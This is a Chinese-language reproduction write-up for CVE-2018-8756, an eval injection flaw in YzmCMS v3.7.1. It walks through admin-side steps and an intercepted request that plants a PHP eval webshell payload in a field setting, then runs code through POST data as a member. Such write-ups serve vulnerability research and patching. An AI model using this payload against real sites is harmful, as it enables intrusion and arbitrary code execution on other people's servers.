 （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞
===========================================

一、漏洞简介
------------

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS
3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member\_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

二、漏洞影响
------------

YzmCMS v3.7.1

三、复现过程
------------

首先，从网站后台登陆，/index.php?m=admin&c=index&a=init，然后选择模型管理，选
择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![](./resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId24.png)

接着需要拦截数据包，像图片一样，

    修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang])

![](./resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId25.png)

接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户，
填表如下。

![](./resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId26.png)

现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ，
guici/123456,/index.php?m=member&c=index&a=login，点击在线投稿，接着你就可以执行任
意代码通过输入 post 数据
wushuang！/index.php?m=member&c=member\_content&a=init

![](./resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId27.png)

参考链接
--------

> <https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf>
